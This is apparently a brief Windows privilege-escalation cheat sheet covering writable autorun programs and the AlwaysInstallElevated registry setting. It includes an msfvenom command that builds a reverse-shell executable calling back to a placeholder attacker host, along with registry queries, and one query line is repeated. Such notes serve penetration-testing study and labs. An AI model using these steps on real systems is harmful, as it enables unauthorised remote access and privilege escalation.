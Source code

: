 # Registry
## Autorun
* C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe -> Look for strange programs
* C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\PATH\PROGRAM"
If you can Read or write, try to create a file with the same name but with reverse shell content
* msfvenom -p windows/shell/reverse_tcp lhost=X.X.X.X -lport=443 -f exe -o program.exe
* Then wait a few seconds or access into the other user and you'll get your shell
## AlwaysInstallElevated
* reg query HKLM\Software\Policies\Microsoft\Windows\Installer -> See if “AlwaysInstallElevated” value is 1.
* reg query HKLM\Software\Policies\Microsoft\Windows\Installer -> SEE “AlwaysInstallElevated” value is 1.
